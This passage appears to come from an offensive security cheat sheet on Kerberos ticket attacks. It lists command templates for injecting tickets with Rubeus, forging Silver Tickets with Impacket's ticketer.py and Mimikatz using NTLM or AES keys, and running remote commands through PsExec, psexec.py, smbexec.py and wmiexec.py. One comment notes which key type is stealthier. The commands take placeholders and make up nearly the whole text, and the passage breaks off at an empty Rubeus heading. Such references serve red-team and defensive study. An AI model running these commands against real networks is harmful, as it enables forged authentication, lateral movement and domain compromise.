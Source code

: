 Inject ticket via Rubeus:

```python
.\\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a remote command via PsExec:

```python
.\\PsExec.exe -accepteula \\\\<remote_hostname> cmd
```

### Silver Ticket

Impacket:

```python
# To generate the TGS with NTLM
ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

Mimikatz:

```python
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Rubeus:

